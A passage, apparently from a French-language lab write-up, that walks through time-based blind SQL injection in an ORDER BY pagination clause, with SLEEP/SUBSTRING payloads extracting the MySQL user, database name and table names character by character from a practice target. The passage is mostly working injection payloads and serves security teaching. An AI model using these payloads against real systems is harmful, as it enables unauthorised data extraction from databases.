 ```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(USER(),3,1))=ORD('l'),0,5))))a)
```

L'utilisateur MySQL est "sql\_injection\_in\_pagination\_clauses@localhost".

Récupération du nom de la base de données :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(DATABASE(),1,1))=ORD('s'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(DATABASE(),2,1))=ORD('q'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(DATABASE(),3,1))=ORD('l'),0,5))))a)
```

Le nom de la base de donnéest est "sql\_injection\_in\_pagination\_clauses\_database".

Récupération du nombre de tables :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT COUNT(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database'),1,1))=ORD('2'),0,5))))a)
```

La base de données possède deux tables.

Récupération des noms des tables :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 0),1,1))=ORD('u'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 0),2,1))=ORD('s'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 0),3,1))=ORD('e'),0,5))))a)
```

Le nom de la première table est "users".

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 1),1,1))=ORD('s'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 1),2,1))=ORD('e'),0,5))))a)
```
